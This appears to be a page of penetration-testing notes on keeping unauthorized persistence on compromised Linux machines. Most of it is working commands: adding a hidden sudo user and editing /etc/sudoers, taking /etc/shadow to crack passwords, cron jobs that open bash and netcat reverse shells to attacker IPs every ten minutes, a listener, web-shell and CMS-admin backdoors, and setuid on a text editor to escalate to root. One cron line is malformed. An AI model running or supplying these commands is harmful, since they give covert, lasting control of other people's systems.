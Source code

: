 ## Persistence


* Create a New User

The most obvious, but not so subtle way is to just create a new user (if you are root, or someone with that privilege) .
```
adduser pelle
adduser pelle sudo
```
Now if the machine has ssh you will be able to ssh into the machine.

On some machines, older Linux I think, you have to do
```
useradd pelle
passwd pelle
echo "pelle    ALL=(ALL) ALL" >> /etc/sudoers
```

* Crack the password of existing user

Get the /etc/shadow file and crack the passwords. 
This is of course only persistent until the user decides to change his/her password. So not so good.

* Cronjob NC

Create cronjob that connects to your machine every 10 minutes. Here is an example using a bash-reverse-shell. You also need to set up a netcat listener.
Here is how you check if cronjob is active
```
service crond status
pgrep cron
```
If it is not started you can start it like this
```
service crond status
/etc/init.d/cron start

crontab -e
*/10 * * * * 0<&196;exec 196<>/dev/tcp/192.168.1.102/5556; sh <&196 >&196 2>&196

/10 * * * * nc -e /bin/sh 192.168.1.21 5556
```

Listener
```
nc -lvp 5556
```

Sometimes you have to set the user
```
crontab -e
*/10 * * * * pelle /path/to/binary
```

More info: http://kaoticcreations.blogspot.cl/2012/07/backdooring-unix-system-via-cron.html

* Metasploit persistence module

Create a binary with malicious content inside. Run that, get meterpreter shell, run metasploit persistence.
https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/
If you have a meterpreter shell you can easily just run persistence.

* Backdoor in Web Server

You can put a cmd or shell-backdoor in a webserver.
Put backdoor on webserver, either in separate file or in hidden in another file

* Admin Account to CMS

Add admin account to CMS.

* Mysql-backdoor

Mysql backdoor

* Hide Backdoor in bootblock

* Nmap 

If machine has nmap installed:
https://gist.github.com/dergachev/7916152

* Setuid on text-editor

You can setuid on an editor. So if you can easily enter as a www-data, you can easily escalate to root through the editor.
With vi it is extremely easy. You just run :shell, and it gives you a shell.

```
# Make root the owner of the file
chown root myBinary

# set the sticky bit/suid
chmod u+s myBinary
```



